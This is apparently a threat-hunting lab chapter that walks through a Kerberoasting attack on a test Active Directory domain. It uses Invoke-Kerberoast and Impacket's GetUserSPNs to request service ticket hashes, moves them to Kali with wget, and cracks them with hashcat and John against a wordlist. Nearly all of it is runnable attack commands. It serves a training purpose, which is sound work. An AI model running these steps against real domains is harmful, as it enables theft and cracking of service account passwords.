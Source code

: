 # Chapter 2.4.1 - The Attack 

on windows 
====

choco install -y python3  
python -m pip install --upgrade pip

in powershell:  

```code
[Environment]::SetEnvironmentVariable("Path", "$env:Path;C:\Python38")
```

pip install updog

Powershell : 

```code
cd C:\terraform\threathunt\labs\4_KERBEROAST
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat
```

default output is for john

Open the file "hashcapture.txt" with Notepad++  
In the menu select "Encoding" and set it to "Encode in UTF-8" 
Save the file and the BOM will be gone.

start updog in the folder where you saved hashcapture.txt

on Kali hashcat / John
====

cd ~
wget http:\\10.0.0.x\hashcapture.txt

```
testadmin@AZ-KALI:~$ file hashcapture.txt 
hashcapture.txt: ASCII text, with very long lines, with CRLF line terminators
```

cat hashcapture.txt | tr -d " \t\n\r" > hash_clean.txt

hashcat -m13100 -a 0 hash_clean.txt Top1m.txt --force --potfile-disable


IMPACKET PYTHON
====

./GetUserSPNs.py acme.local/testadmin:PROVIDED_PASSWORD -o spns.txt -request -dc-ip 10.0.0.4

john --wordlist=Top1m.txt spns.txt

On your MAC or a local Kali Linux
====

Cracking hashes with hashcat is typically done on dedicated hardware - in this lab hashcat won't work on your Kali Linux machine in Azure. Hashcat is tricky when it comes to drivers and memory/cpu requirements.

You can give it a go on your own OS by installing Hashcat, below is the simplest way of doing this on MacOS - the performace won't be great, but it's enough to show the principle of password cracking.

```code 
brew install hashcat  
hashcat -m 13100 -O -a 0 hashes.txt Top1m.txt --force --potfile-disable --self-test-disable
```

|   |   |
|---|---|
|-O | switch to optimized OpenCL kernels|  
|-a | 0 = dictionary |
|   | 6 = brute force |
|-m | 13100 = Kerberos TGS-REP   |

![Screenshot command](./assets/03-hashcat.jpg)